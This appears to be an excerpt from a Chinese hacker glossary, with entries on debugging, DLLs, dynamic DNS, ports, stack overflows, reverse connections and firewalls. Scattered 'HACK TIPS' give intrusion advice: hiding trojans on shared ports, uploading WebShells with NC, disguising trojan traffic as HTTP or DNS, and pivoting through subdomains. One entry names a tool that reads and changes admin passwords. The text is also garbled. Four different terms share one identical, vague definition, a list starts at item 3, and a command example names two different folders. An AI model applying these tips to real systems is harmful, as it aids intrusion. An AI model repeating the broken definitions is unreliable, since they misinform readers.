



## 动态调试 调试技术

在破解调试的过程中，想要真正弄清程序的流程，就必须让程序运行，并监视其行为，这样的过程就叫动态调试。比如 TRW2000、SoftICE、OD 等，把目标软件调入运行。通过这些分析软件，目标软件的运行就非常清楚地显示在破解者面前。在这个过程中，目标软件是运行着的，而且还可通过分析软件让其暂停运行，以方便对相关数据进行分析。有时为了能够更好地分析，还可让目标软件一行代码一行代码地运行，以方便对一些变量和寄存器的数值变化进行更深入的研究。

## 三、动态分析软件：调试技术

动态分析是通过动态调试工具使用测试数据去执行软件，以观察软件的行为，从而生成测试报告。在软件开发和维护期，使用动态分析技术有助于提高程序的稳定性和可靠性。

## 四、动态跟踪器：调试技术

即运行程序并分析其指令和寄存器状态。

## 五、动态链接库：程序语言与开发，操作系统及其相关

动态链接库，即 DLL（Dynamic Link Library 的缩写形式），它是作为共享函数库的可执行文件而存在的。动态链接提供了一种方法，使进程可以调用不属于其可执行代码的函数，函数的可执行代码位于一个 DLL 中。该 DLL 包含一个或多个已被编译、链接并与使用它们的进程分开存储的函数。我们在 Windows 系统中能看到许多后缀名为 dll 的文件，这些就是动态链接库。

在几十年前 DOS 系统大行其道的日子里，写程序是件繁琐的事，因为每个程序的代码都是独立的，有时为了实现一个功能，就要为此写很多代码。后来随着编程技术的发展，程序员们把很多常用的代码集合（通用代码）放进一个独立的文件，并把这个文件称为“库”（Library）。在写程序时，把这个库文件加入编译器，就能使用这个库包含的所有功能，而不必自己再写一大堆代码，这个技术被称为“静态链接”（Static Link）。

后来，静态链接技术由于天生的弊端，不能满足程序员的愿望，人们开始寻找一种更好的方法来解决代码重复的难题。接着，Windows 系统出现了，它使用一种新的链接技术。这种被称为“动态链接”（Dynamic Link）的新技术同样也是使用库文件，微软称它们为“动态链接库”——Dynamic Link Library，DLL 的名字就是这样来的。

动态链接和静态链接本身并没有什么区别，也都是把通用代码写进一些独立文件。但在编译方面，微软绕了个圈子，并没有采取把库文件加进程序的方法，而是把库文件做成已经编译好的程序文件，给它们开个交换数据的接口。程序员写程序时，一旦要使用某个库文件的功能函数，系统就把这个库文件调入内存，连接上这个程序占有的任务进程，然后执行程序要用的功能函数，并把结果返回给程序显示出来。在我们看来，就像是程序自己带有的功能一样。完成需要的功能后，这个 DLL 停止运行，整个调用过程结束。

微软让这些库文件能被多个程序调用，实现了比较完美的共享。程序员无论要写什么程序，只要在代码里加入对相关 DLL 的调用声明就能使用它的全部功能。最重要的是，DLL 绝对不会让你多拿一个花瓶，你要什么它就给你什么。这样，写出来的程序就不能再携带一大堆垃圾了。

只有当 EXE 程序确实要调用这些 DLL 模块的情况下，系统才会将它们装载到内存空间中。这种方式不仅减少了 EXE 文件的大小和对内存空间的需求，而且使这些 DLL 模块可以同时被多个应用程序使用。Windows 自己就将一些主要的系统功能以 DLL 模块的形式实现。

DLL 技术的诞生，使编写程序变成一件简单的事情。Windows 为我们提供了几千个函数接口，足以满足大多数程序员的需要。而且，Windows 系统自身就是由几千个 DLL 文件组成，这些 DLL 相互扶持，组成了强大的 Windows 系统。而在木马的领域，DLL 也有强大的应用，DLL 木马就是一个典型的例子。

## 动态IP 黑客技术基础

动态 IP 就是指动态地给上网主机分配 IP 地址，即使用动态 IP 联网的主机每次联网时 IP 都不同。这是 IPv4 的地址即将枯竭、IP 地址资源日益紧张所使用的解决办法。主机下线后再次上线时，必须向指定的 IP 分配服务器获取 IP 才能上线。

举个实际的例子：比如一个 ISP 有一万个用户，如果使用完全静态的分配方式，那就需要一万个 IP 地址。但如果这个 ISP 只有 500 个 IP 地址的资源，它就需要用到动态 IP 地址为其用户分配，因为只有登录到 Internet 的计算机才会需要 IP 地址。所以，ISP 只需把 IP 地址分配给已经登录的用户，而且这个地址只在他们登录期间有效。计算机断开连接后，ISP 就把分配出去的 IP 地址收回，并分配给下一个上网用户。动态分配 IP 地址所使用的协议是 DHCP，当主机连接属性中，TCP/IP 协议的属性设置为图 D-4 的状态时，就是动态 IP。



## 动态域名 黑客技术基础

当某个服务器只有动态 IP 时，就必须使用动态域名。不过这一般需要专门的动态域名软件来实现。

主机上线之后，安装在用户计算机里的动态域名软件就会把这个 IP 地址发送到动态域名解析服务器，更新域名解析数据库。Internet 上的其他人要访问这个域名时，动态域名解析服务器会返回正确的 IP 地址给他，这就叫动态域名。

因为绝大部分 Internet 用户上网时分配到的 IP 地址都是动态的，用传统的静态域名解析方法，用户想把自己上网的计算机做成一个有固定域名的网站，是不可能的。而有了动态域名，这个美梦就可以成真。用户可以申请一个域名，利用动态域名解析服务，把域名与自己上网的计算机绑定在一起，这样就可以在家中或公司里搭建自己的网站，非常方便。

现在很多【反弹式木马】在取得控制端 IP 地址时也都是使用这种技术，因为大多数人都使用的是动态 IP。将这个动态的 IP 实时更新到动态域名（因为域名是不变的），就可以让木马每次访问不同的 IP。



如图 D-5，就是灰鸽子木马的动态域名管理。

### 动网脚本

即动网论坛，国内使用最广的论坛系统，因曝出过很多利用价值极高的漏洞而被大家所熟知，最著名的有：【上传漏洞】、】【提权】漏洞、】【挂马】漏洞等。

## 动易2006漏洞利用工具 黑客工具

这是为了利用动易系统中一个有名的漏洞而制造的工具，可以进行管理员密码读取与修改，如图 D-6。



图D-6

## 端口 黑客技术基础

在网络技术中，端口（Port）有好几种意思。集线器、交换机、路由器的端口指的是连接其他网络设备的接口，如 RJ-45 端口、Serial 端口等。我们这里指的端口不是物理意义上的端口，而是特指 TCP/IP 协议中的端口，即逻辑意义上的端口。

如果把主机比作一间房子，端口就是出入这间房子的门。真正的房子只有几个门，但一个主机的端口可以有 65536（即：256×256）个之多。端口是通过端口号来标记的，端口号由整数构成，范围从 0 到 65535（256×256）。

主机联网之后会传来许多【数据报】，而大多数操作系统都支持多程序、多任务同时运行。那么目的主机应该把接收到的数据报传送给众多同时运行的进程中的哪一个呢？显然这个问题有待解决，端口机制便由此被引入进来。

**简单地说，端口就是用来标识数据报与进程之间关系的标识。**

一台主机可以提供许多服务，如 Web 服务、FTP 服务、SMTP 服务等，这些服务完全可以通过 1 个 IP 地址来实现。那么，主机是怎样区分不同的网络服务呢？显然不能只靠 IP 地址，因为 IP 地址与网络服务的关系是一对多。实际上，主机是通过“IP 地址 + 端口号”来区分不同的服务。

端口可分为 3 大类：

- 1. **公认端口（Well Known Ports）**：从 0 到 1023。它们紧密绑定于一些服务，通常这些端口的通信明确表明了某种服务的协议。例如：80 端口实际上总是 HTTP 通信。
- 2. **注册端口（Registered Ports）**：从 1024 到 49151。它们松散地绑定于一些服务，也就是说，有许多服务绑定于这些端口，这些端口同样用于许多其他目的。例如：许多系统处理动态端口从 1024 左右开始。
- 3. **动态和/或私有端口（Dynamic and/or Private Ports）**：从 49152 到 65535。理论上，不应为服务分配这些端口。实际上，机器通常从 1024 起分配动态端口；但也有例外：SUN 的 RPC 端口从 32768 开始。

**需要注意的是，端口并不是一一对应的。** 比如你的电脑作为客户机访问一台 WWW 服务器时，WWW 服务器使用“80”端口与你的电脑通信，但你的电脑则可能使用“3457”这样的端口。

另外，端口在入侵中的作用非常大。上面把主机比作房子，而把端口比作通向不同房间（服务）的门。入侵者要占领这间房子，势必要破门而入（物理入侵另说），那么对于入侵者来说，了解房子开了几扇门，都是什么样的门，门后面有什么东西，就显得至关重要。

入侵者通常会用扫描器对目标主机的端口进行扫描，以确定哪些端口是开放的，然后再从开放的端口了解目标主机大致提供了哪些服务，进而猜测可能存在的漏洞。因此，对端口的扫描可以帮助我们更好地了解目标主机；而对于管理员，扫描本机的开放端口也是做好安全防范的第一步。

# 黑客词典

### 端口复用

一种重复使用端口的技术，即与其他程序共用同一个端口，这个在后门与穿透防火墙等方面有实际用途。如：

- 1. 某个木马绑定到一个已经合法存在的端口上进行端口隐藏，它通过自己特定的包格式判断是不是自己的包。如果是，自己处理；如果不是，则通过 127.0.0.1 的地址交给真正的服务器应用进行处理。比如绑定在一个开启 Web 服务主机的 80 端口上，可逃过许多防火墙的监视。
- 2. 一个木马可以在低权限用户上绑定高权限的服务应用端口，对流经该端口的信息进行嗅探。
- 3. 针对一些特殊应用，可以发起中间人攻击，从低权限用户上获得信息或实施欺骗。如在 guest 权限下拦截 telnet 服务器的 23 端口，如果是采用 NTLM 加密认证，虽然你无法通过嗅探直接获取密码，但一旦有 admin 用户通过你登录以后，你的应用就完全可以发起中间人攻击，扮演这个登录用户发送高权限命令，达到入侵目的。
- 4. 对于构建的 Web 服务器，入侵者只需获得低级权限，就可完全达到更改网页的目的。很简单，扮演你的服务器给予连接请求其他信息的应答，甚至是基于电子商务上的欺骗，获取非法数据。

其实，微软系统中很多服务都存在端口被重复使用的问题，比如 telnet、ftp、http 等，全部都可利用这种方法进行攻击，在低权限用户上实现对 SYSTEM 应用的窃听。

### 端口监听

如果一个程序想要与网络上的其他主机通信，就必须开启一个端口，并且监视流经该端口的数据流，这个过程就叫做端口监听。

### 端口列表

指存储端口信息的文件，扫描器中常使用端口列表来确定哪些端口需要被扫描。

### 端口扫描

对目标主机端口开放情况进行检测，可以分为手工扫描与工具扫描。手工扫描是利用系统一些特定的命令（如 Telnet）进行连接，并根据返回情况进行检测；工具扫描也就是利用【扫描器】进行扫描。

## HACK TIPS:

对于高手来说，漏洞扫描一般是不用的，他们最常使用的就是端口扫描。因为对于重要的服务器来说，暴露在外面的服务几乎不可能有公开漏洞，关键在于准确确定开放的服务，再依据开放的服务制定相应的对策，这样端口扫描就成了关键。

### 端口映射

图 D-7

与其它主机进行连接时，就需要做端口映射，常见的有 PortMap 与 LCX。如图 D-7，为 PortMap。

#### HACK TIPS

利用常规的端口映射有时会受到很多限制，首先做映射的主机必须要有公网 IP，而且还必须保证映射的端口没有被防火墙阻挡。而 LCX 这样的工具可以很好地解决这几个问题，它与普通端口转发工具有所不同。普通端口转发工具是被动监听端口，等待远程主机连接后再进行转发。这样，要连接到内网主机就必须要一台有公网 IP 的主机，即必须要三台计算机。而 lcx.exe 是主动连接远程主机，TCP 连接建立后再进行端口转发，因此，不仅穿透防火墙的效果更好，而且也只需两台计算机。不过，需要其远程主机有公网 IP。

### 端口重定向

端口映射的别称。

### 端口转发

端口映射的别称。

### 堆栈

两种不同的数据结构。堆栈就是一种数据项按序排列的数据结构，只能在一端（称为栈顶（top））对数据项进行插入和删除。堆是顺序随意的意思，而栈是先进后出的意思。关于堆和栈最简单的区别就是：使用栈就像我们去饭馆里吃饭，只管点菜（发出申请）、付钱、吃饭（使用），吃饱了就走，不必理会切菜、洗菜等准备工作和洗碗、刷锅等扫尾工作。它的好处是快捷，但自由度小；使用堆就像是自己动手做喜欢吃的菜肴，比较麻烦，但一般符合自己的口味，而且自由度大。

### 堆栈溢出

堆栈溢出就是不顾堆栈中分配的局部数据块大小，向该数据块写入了过多数据，导致数据越界，结果覆盖了老的堆栈数据。或者解释为在长字符串中嵌入一段代码，并将过程的返回地址覆盖为这段代码的地址，这样当过程返回时，程序就转而开始执行这段自编代码了。

许多编程书籍说，堆栈溢出会造成不可预料的错误，但黑客们就是需要将这个不可预料变为指定的错误，这样就可达到取得 SHELL 或扩大权限的目的。

### E

### 恶意插件（病毒与恶意软件）

主要指不请自来、在浏览器上加载的插件，很多时候它们会声称提供许多功能，如搜索、杀毒等，但这也会带来许多广告或者弹出窗口。同时，恶意插件一般没有删除选项，如果这样的插件越来越多，就会占用很多系统资源，导致使用者的机器越来越缓慢。比较“著名”的就有 3721 中文上网插件，现在几乎绝迹了。

### 二级域名（黑客技术基础）

二级域名是顶级域名（一级域名）的下一级，域名整体包括两个“.”，或包括一个“.”和一个“/”，例如“www.abc.com”“bbs.abc.com”。但我们平时称的二级域名即是指除了“www”前缀的、只含有两个“.”的二级域名，如 forum.eviloctal.com 就是 eviloctal.com 的二级域名。（详情请见“域名”）

#### HACK TIPS

一个二级域名一般意味着一种 WEB 服务，如邮件服务器一般就会是 mail.xxx.com，新闻服务器就是 news.xxx.com。在入侵时如果主站难以进入，可以尝试进入提供其它服务的主机，再利用其它技术进入主服务器。

### 二进位（黑客技术基础）

即二进制。

### 二进制（黑客技术基础）

数的一种表示法，只使用 0 和 1 两个数字，逢二进一，如 1+1=10，便于用物理状态表示。计算机的结构中主要采用二进制，原因有以下几点：

- 1、技术实现简单：计算机是由逻辑电路组成，逻辑电路通常只有两个状态，开关的接通与断开，这两种状态正好可以用“1”和“0”表示。
- 2、简化运算规则：两个二进制数和、积运算组合各有三种，有利于简化计算机内部结构，提高运算速度。
- 3、适合逻辑运算：逻辑代数是逻辑运算的理论依据，二进制只有两个数码，正好与逻辑代数中的“真”和“假”相吻合。
- 4、易于进行转换：二进制与十进制数易于互相转换。

### 发包工具（黑客技术基础）

指能够发送指定数据包的工具，目前有很多常用的、产生 IP 包的工具，比如 NC 与 sendip。

NC 是 Windows 下常用发包工具，而 SENDIP 是 Linux 下的命令行工具，可以通过命令行参数的方式发送各种格式的 IP 包。它有大量命令行参数来规定各种协议的头格式，目前可支持 NTP、BGP、RIP、RIPng、TCP、UDP、ICMP 或 raw IPv4 和 IPv6 包格式，并且可随意在包中添加数据。

#### HACK TIPS

发包工具在利用 WEB 漏洞时有非常重要的作用，因为在 HTML 页面上常常无法顺利构造出我们想要的数据，这时就可先用 WsockExpert 抓取 POST 提交的包，如图 F-1，修改后再用 NC 提交。在上传漏洞的利用中，攻击者通常都是用 NC 发包上传 WebShell。

### 反编译（程序语言与开发，调试技术）

也叫逆向工程。高级语言源程序经过编译变成可执行文件，反编译就是逆过程，但通常不能把可执行文件变成高级语言源代码，只能转换成汇编程序。计算机软件反向工程（Reverse engineering）也称为计算机软件还原工程，是指通过对他人软件的目标程序（可执行程序）进行“逆向分析、研究”工作，以推导出他人的软件产品所使用的思路、原理、结构、算法、处理过程、运行方法等设计要素，作为自己开发软件时的参考，或者直接用于自己的软件产品中。

### 反弹端口（黑客技术基础）

反弹技术的别称，也指反弹技术中控制端所监听的端口。

### 反弹技术（黑客技术基础）

早期由于采用主动连接模式，内网主机无法直接暴露目标端口，导致只能通过连接方式建立通道。这样虽然只能知道端口编号，但更容易绕过防火墙限制，因此被广泛使用于复杂网络环境中。

为了能隐藏通信，这类连接通常会配合一定的加密。除服务端和隧道两端外，其他人较难获知真实通信端口。

### 嗅探技术

早期由于采用主动连接模式，内网主机无法直接暴露目标端口，导致只能通过连接方式建立通道。这样虽然只能知道端口编号，但更容易绕过防火墙限制，因此被广泛使用于复杂网络环境中。

### 恶意技术

早期由于采用主动连接模式，内网主机无法直接暴露目标端口，导致只能通过连接方式建立通道。这样虽然只能知道端口编号，但更容易绕过防火墙限制，因此被广泛使用于复杂网络环境中。

### 恶意软件

早期由于采用主动连接模式，内网主机无法直接暴露目标端口，导致只能通过连接方式建立通道。这样虽然只能知道端口编号，但更容易绕过防火墙限制，因此被广泛使用于复杂网络环境中。

3、Spyware Doctor：一个先进的间谍软件、广告软件公用程序，它可检查并从电脑移走间谍软件、广告软件、木马程序、键盘记录器和追踪威胁。

4、SpyRemover：专门为清除悄悄安装在电脑里的间谍程序而设计的一款计算机网络安全工具，它可帮助你快速在系统组件中搜索已知间谍程序的踪迹，并可帮你安全清除它们，全面保护你的网络安全。

### 反向连接（黑客技术基础）

与主动连接相反的连接方式。一般来说，连接到远程主机，需要让远程主机监听端口，然后本地主机去连接；而反向连接是本地监听端口，远程主动连接到本地主机。反向连接是反弹技术的核心。

#### HACK TIPS

为避免被防火墙阻挡，木马一般会插入到 IE 的进程，再远程连接 80 端口，这样就可伪装成一个正常的 HTTP 请求，使得防火墙放行。另外，也可连接 53 端口，伪装成 DNS 查询请求。

### 反向溢出（攻击方法与行为）

传统溢出是溢出后在远程主机上开启特定的端口并绑定 SHELL；而反向溢出是被溢出主机反向主动连接到发起溢出攻击的主机所监听的端口上，这样更增加了穿透防火墙的能力。

#### HACK TIPS

传统的防火墙一般都是外严内松，它主要对从外部过来的连接进行辨识和防范；而对于从本机由内往外的连接疏于防备，从而给反向溢出制造机会，所以反向溢出这种攻击比正向连接的成功率要高很多。但是随着防火墙的更新换代，从内往外连也会被防火墙侦测和盘问。

### 防盗链（特定名称）

指防止盗链的措施。

### 防火墙（黑客技术基础）

古时候，人们常在寓所之间砌起一道砖墙，一旦火灾发生，它能够防止火势蔓延，这种墙因此得名“防火墙”。同样地，当一个网络连接到了 Internet，外部世界就可以访问网络并与之交互。为保证内部网络的安全，可以在该网络和 Internet 间插入一个中介系统，砌一道安全屏障。我们可以用这个系统来保护内部网络，同时阻断外界的入侵，这种系统就叫防火墙。

防火墙有硬件防火墙与软件防火墙之分。硬件防火墙其实就是一台只安装防火墙程序的计算机，而且一般没有显示屏，适合大型网络并且需要专业人员维护；而软件防火墙一般是比较简单的应用程序，通常安装在个人计算机上。

防火墙可以是非常简单的过滤器，也可以是精心配置的网关，但它们的原理是一样的，都是检测并过滤所有内网与外网之间的信息交换，防火墙保护内部网络数据不被偷窃和破坏，并记录内外通信的有关状况。

### 防火墙策略（安全技术）

从某种方面说，防火墙实际上代表了一个访问原则，所有流经的数据包都要经过访问原则的筛选，才决定是否流进或流出。而防火墙策略就是这个原则，它由管理人员确定，即确定哪些类型的信息允许通过防火墙，哪些不允许通过防火墙。

### F

### 防注（安全技术）

防止 SQL 注入的简称。有两类基本的防注方法：一种是在脚本页面中添加含有防注功能的代码（检测 SQL 语句并过滤关键敏感字符）；另一种是在服务器上运行有防注功能的应用程序，监视流经 WEB 端口的数据，将含有敏感字符的数据过滤掉。

### 访问控制模型（安全技术）

访问控制模型是用于规定如何作出访问决定的模型。传统的访问控制模型包括一组由操作规则定义的基本操作状态，典型的状态包含一组主体（S）、一组对象（O）、一组访问权（A[S，O]），包括读、写、执行和拥有。

访问控制模型涵盖对象、主体和操作，通过对访问者的控制达到保护重要资源的目的。对象包括终端、文本和文件，系统用户和程序被定义为主体，操作是主体和对象的交互。访问控制模型除了提供机密性和完整性外，还提供记账性。记账性是通过审计访问记录实现的，访问记录包括主体访问了什么对象以及进行了什么操作。

### 访问控制列表（安全技术）

访问控制列表是用来对访问控制模型中的访问者进行控制的列表，它决定什么样的访问者可以执行什么样的操作，这种机制在防火墙与大多数系统中都有实际应用。如防火墙中的访问控制列表用来告诉防火墙或路由器，哪些数据包可以接收、哪些数据包需要拒绝。至于数据包是被接收还是拒绝，可以由类似于源地址、目的地址、端口号等特定指示条件来决定。

Windows 中也有一个访问控制列表，可以设置每个用户对任意文件夹与盘符的访问权限。下面给出两个用 CACLS 命令修改访问控制列表权限的实例：

#### 实例一：查看文件夹的访问控制权限

这里我们希望查看 h:\temp 文件夹的访问控制权限，那么只需要在“开始→运行”对话框输入 CMD 或切换到命令提示符模式下，键入如下命令：

```cmd
C:\>md xl
C:\>cacls c:\xl
c:\xl BUILTIN\Administrators:(OI)(CI)F
NT AUTHORITY\SYSTEM:(OI)(CI)F
HNCJ\xiaoliang:F
CREATOR OWNER:(OI)(CI)(IO)F
BUILTIN\Users:(OI)(CI)R
BUILTIN\Users:(CI)(特殊访问:)
FILE_APPEND_DATA
BUILTIN\Users:(CI)(特殊访问:)
FILE_WRITE_DATA
```

此时，我们会看到所有用户组和用户对 h:\temp 文件夹的访问控制权限项目。这里的 CI 表示 ACE 会由目录继承，OI 表示 ACE 会由文件继承，IO 表示 ACE 不适用于当前文件或目录。每行末尾的字母表示控制权限，例如 F 表示完全控制，C 表示更改，W 表示写入。

#### 实例二：修改文件夹的访问控制权限

